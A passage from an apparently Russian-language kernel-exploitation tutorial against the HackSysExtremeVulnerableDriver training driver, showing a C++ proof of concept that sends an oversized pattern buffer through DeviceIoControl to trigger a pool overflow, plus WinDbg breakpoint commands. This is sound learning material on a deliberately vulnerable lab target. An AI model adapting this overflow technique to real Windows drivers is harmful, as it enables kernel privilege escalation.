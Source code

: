 Снова пишем сплойт, ставим бряку и смотрим:

```cpp
#include <Windows.h>
#include <string.h>
#include <stdio.h>

#define IO_CODE 0x22200f

const char kDevName[] = "\\\\.\\HackSysExtremeVulnerableDriver";

int main() {

    printf("[+] Calling CreateFileA() to obtain a handle to driver\n");
    HANDLE hDevice = CreateFileA(kDevName,
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        0,
        NULL
    );
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Error - dailed to get file handle!\n");
        system("pause");
        return -1;
    }
    printf("[+] Successfully obtained a handle to the driver\n");

    const char* poc = "AAAABBBB222233334444555566667777888899990000zzzzxxxxccccvvvvbbbbnnnnmmmmaaaassssddddffffgggghhhhjjjjkkkkllllpppp";
    //printf("%d", sizeof(poc));
    DWORD bytesRetn;

    printf("[+] Starting interaction with the driver\n");
    DeviceIoControl(hDevice, IO_CODE, (LPVOID)poc, 100, NULL, 0, &bytesRetn, NULL);
    //system("cmd.exe");
    CloseHandle(hDevice);

    return 0;
}
```

```js
in windbg:
ed nt!Kd_Default_Mask 8

.sympath+ location_of_HEVD_pdb
.reload 
.reload /f

bp HEVD!TriggerPoolOverflow
bp HEVD!TriggerPoolOverflow+e6
```

